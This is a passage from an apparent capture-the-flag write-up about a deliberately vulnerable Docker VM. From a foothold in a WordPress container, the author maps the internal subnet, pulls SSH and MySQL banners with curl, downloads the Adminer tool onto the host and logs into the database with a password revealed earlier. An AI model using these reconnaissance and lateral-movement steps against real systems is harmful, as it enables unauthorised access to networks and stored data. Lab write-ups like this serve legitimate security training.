 Seems like MySQL server is running on 172.18.0.3.

Just ping first IP addresses in this subnet for other hosts:

```shell
ping -c1 172.18.0.1
...
```

Docker infrastructure looks like this:

```md
127.0.0.11 = DNS
172.18.0.1 = default gateway
172.18.0.2 = ?
172.18.0.3 = database
172.18.0.4 = wordpress  <- we are here
```

Request SSH banner from default gateway:

```sh
www-data:/var/www/html $ curl -s 172.18.0.1:22
SSH-2.0-OpenSSH_6.6p1 Ubuntu-2ubuntu1
```

Host machine is giving us the same SSH banner:

```sh
$ curl -s ctf:22
SSH-2.0-OpenSSH_6.6p1 Ubuntu-2ubuntu1
```

With high probability, 172.18.0.1 is the IP address of host machine from Docker network side.

Also, this port forwarding is obvious:
ctf:8000 → 172.18.0.4:80

Noticing two more interesting banners:

```sh
$ curl -s 172.18.0.2:22
SSH-2.0-ssh2js0.0.23srv

$ curl -s 172.18.0.3:3306
5.7.19...
```

Let’s download [adminer](https://www.adminer.org/) – similar to phpMyAdmin, but packaged just in one single file:

```sh
$ curl -L -o adminer.php https://github.com/vrana/adminer/releases/download/v4.3.1/adminer-4.3.1-en.php
```

[Logging in](http://ctf:8000/ctf/adminer.php?server=db&username=wordpress&db=wordpress) with password, which was revealed earlier:

![adminer database management tool](/assets/blog/vulnerable-docker-vm/ctf6.png)
